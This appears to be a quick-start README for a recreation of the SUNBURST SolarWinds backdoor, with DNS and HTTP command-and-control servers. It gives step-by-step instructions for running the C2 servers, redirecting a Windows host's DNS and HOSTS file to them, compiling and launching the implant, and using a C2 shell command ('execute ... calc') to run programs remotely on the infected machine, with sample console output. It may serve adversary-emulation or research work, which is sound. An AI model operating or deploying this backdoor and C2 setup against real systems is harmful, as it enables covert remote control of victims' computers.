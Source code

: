 Quick start:

0. Install python packages in requirements_dns.txt and requirements_http.txt
1. Run sunburst_dnsc2.py on a server (local or remote)
2. Type "auto_activate" in the DNS c2 shell and hit enter. Upon connection, clients ("sunbeams") will under go the activation process
3. Run sunburst_httpc2.py on a server (local or remote)
4. Set Window's DNS server to the IP address of the server running sunburst_dnsc2.py
5. Edit Window's HOST file to point "mysunbursthttpc2server.com" to the IP address of the server running sunburst_httpc2.py
6. Compile the Visual Studio solution
7. Run SolarWinds.BusinessLayerHost.exe
8. Wait 30-60 seconds
9. SolarWinds.BusinessLayerHost.exe will connect to the DNS C2 server.
```
(sunburst) auto_activate
	Sunbeams will begin activation when they first connect
(sunburst) (09:14:28) [*] New sunbeam found: b'4f4774e0740a7e72'
(09:14:28) [*] sunbeam preactivated (activation step 1/2): b'4f4774e0740a7e72'
(09:14:38) [*] sunbeam activated (activation step 2/2): b'4f4774e0740a7e72'
```
10. SolarWinds.BusinessLayerHost.exe will connect to the HTTP C2 server.
```
(sunburst) (09:14:40) [*] New sunbeam found: b'4f4774e0740a7e72'
```
11. Type "execute 4f4774e0740a7e72 5 calc" in the HTTP C2 shell and hit enter.
12. Upon the next HTTP request & response, SolarWinds.BusinessLayerHost.exe will execute the RunTask job (id=5) and launch calc.
